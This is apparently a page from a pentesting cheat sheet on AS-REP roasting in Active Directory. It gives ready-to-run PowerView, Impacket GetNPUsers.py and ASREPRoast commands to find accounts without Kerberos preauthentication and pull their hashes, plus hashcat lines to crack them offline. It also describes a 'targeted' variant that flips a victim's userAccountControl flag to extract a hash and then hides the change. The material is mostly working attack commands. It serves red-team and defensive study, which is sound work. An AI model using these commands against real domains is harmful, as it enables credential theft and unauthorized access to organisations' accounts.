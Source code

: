 # AD

* [Pentesting AD Mindmap](https://raw.githubusercontent.com/Orange-Cyberdefense/arsenal/master/mindmap/pentest_ad.png) · [Orange-Cyberdefense/arsenal](https://github.com/Orange-Cyberdefense/arsenal)




## Roasting



### ASREPRoasting

Show domain users with `DONT_REQ_PREAUTH` flag set:

```
PowerView3 > Get-DomainUser -UACFilter DONT_REQ_PREAUTH
```


#### Normal

##### GetNPUsers.py

* [https://vbscrub.com/2020/02/22/impackets-getnpusers-script-explained/](https://vbscrub.com/2020/02/22/impackets-getnpusers-script-explained/)

```
$ GetNPUsers.py megacorp.local/ -dc-ip 127.0.0.1 -no-pass -usersfile /usr/share/seclists/Usernames/Names/names.txt -request -format hashcat -outputfile asreproast.in | tee GetNPUsers.out
$ cat GetNPUsers.out | grep -v 'Client not found in Kerberos database'
$ hashcat -m 18200 -O -a 0 -w 4 --session=asreproast -o asreproast.out asreproast.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```

##### ASREPRoast.ps1

* [https://github.com/HarmJ0y/ASREPRoast](https://github.com/HarmJ0y/ASREPRoast)

```
PS > Get-ASREPHash -Domain megacorp.local -UserName snovvcrash
```


#### Targeted

* [https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#asreproast](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#asreproast)

> Given GenericWrite/GenericAll DACL rights over a target, we can modify most of the user’s attributes. We can change a victim’s userAccountControl to not require Kerberos preauthentication, grab the user’s crackable AS-REP, and then change the setting back. (@harmj0y, [ref](https://www.harmj0y.net/blog/activedirectory/targeted-kerberoasting/))

```
PowerView2 > Get-DomainUser snovvcrash | ConvertFrom-UACValue
PowerView2 > Set-DomainObject -Identity snovvcrash -XOR @{useraccountcontrol=4194304} -Verbose
PowerView2 > Get-DomainUser snovvcrash | ConvertFrom-UACValue
ASREPRoast > Get-ASREPHash -Domain megacorp.local -UserName snovvcrash
PowerView2 > Set-DomainObject -Identity snovvcrash -XOR @{useraccountcontrol=4194304} -Verbose
PowerView2 > Get-DomainUser snovvcrash | ConvertFrom-UACValue
```

